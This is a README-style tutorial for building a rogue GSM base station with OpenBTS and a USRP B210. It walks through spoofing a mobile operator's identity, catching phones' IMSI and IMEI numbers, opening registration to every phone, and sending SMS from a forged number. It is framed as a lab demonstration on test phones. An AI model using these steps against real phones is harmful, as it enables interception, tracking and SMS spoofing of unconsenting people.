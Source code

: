 * Introduction

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM
base station, allowing to send fake SMS, intercept SMS between users, and spoof
the phone provider's identity.

* Requirements

- Ettus USRP B200mini/B210
- GHz Antenna
- 5 GB free
- Some test phones for the experiments. We will catch the IMEI and IMSI of the
  test phones, and whitest them, so that no other user will accidentally
  connect to the test network.

* Installation

OpenBTS official scripts assume to be installed on a Ubuntu 16.04 "Xenial"
system. Hence, a virtual machine is the better way to use it. We use Vagrant to
manage and provision the virtual machine.

First, install the needed tooling (VirtualBox and Vagrant) on the host
computer:

#+begin_src bash
make host-install
#+end_src

Reboot the machine that user group changes take effect.

Then, issue the following command that will install the guest operating system
and the needed tolling on it:

#+begin_src bash
vagrant up
#+end_src

This will create the virtual machine according to the =Vagrantfile= and provision
the guest operating system by calling the =guest-install= Makefile's target. The
operation took between 30 minutes and 1 hour.

* Testing the setup

Make sure the USRP B210 is connected to your machine, then connect to the
virtual machine.

#+begin_src bash
vagrant ssh
#+end_src

First, check that radio is detected:

#+begin_src bash
sudo uhd_find_devices
#+end_src

And that the radio is able to transmit:

#+begin_src bash
cd ~/openbts-install/dev/openbts/debian/openbts/OpenBTS/
sudo ./transceiver
#+end_src

* Mounting the rogue base station

Now, inside the guest, issue each of the following command in a separate
terminal (use =tmux=):

#+begin_src bash
cd ~/openbts-demo && make guest-launch-sipauth
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-smqueue
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-asterisk
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbts
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbtscli
#+end_src

Now, you can type commands in the OpenBTSCLI command line interface
(=OpenBTS>=). We assume that the following commands will be typed inside this
prompt.

Adjust the receive gain, 2dB is a good value when the phone are close, to avoid
clipping. Increase to 10dB if you the phone is more distant:

#+begin_src :eval never
rxgain 2
#+end_src

Set the transmission attenuation, e.g. 20dB (adjust to your needs):

#+begin_src :eval never
power 20
#+end_src

Setup a spoofed network identity. You can find MCC and MNC on
[[https://cellidfinder.com/mcc-mnc/][CellIDFinder.com]]. We chose an Italian operator that is not available in
France. With a French SIM, you have to select it manually. With an Italian WIND
SIM, it will be chosen automatically. If you want to use an operator that exist
in the area, then you have to overpower its signal, we chose not to.

#+begin_src :eval never
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88
#+end_src

Now, take a test phone and do a manual scan for the networks. You should see a
new carrier appear. Try to connect to the network, you will get a failure, but
this is enough to catch the IMSI/IMEI information. Look at IMSI collected:

#+begin_src :eval never
tmsis
#+end_src

#+begin_example
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
#+end_example

We can authorize this specific test phone, a mobile station (MS), to register by its IMSI:

#+begin_src :eval never
config Control.LUR.OpenRegistration 2*************7
#+end_src

Or authorize all MS to register with the following regular expression:

#+begin_src :eval never
config Control.LUR.OpenRegistration .*
#+end_src

Now your phone could connect. You can send an SMS to the phone, from any number
you want.

#+begin_src :eval never
sendsms 2*************7 0610102020 "Hey, you!"
#+end_src

At the end of the demonstration, reset the configuration:

#+begin_src :eval never
rmconfig GSM.Identity.ShortName
rmconfig GSM.Identity.MCC
rmconfig GSM.Identity.MNC
rmconfig Control.LUR.OpenRegistration
rmconfig Control.SMSCB.Table
#+end_src

If you add two phones, they can send each other messages. Once you are done,
close all the programs. Then, halt the virtual machine.

#+begin_src bash
vagrant halt
#+end_src
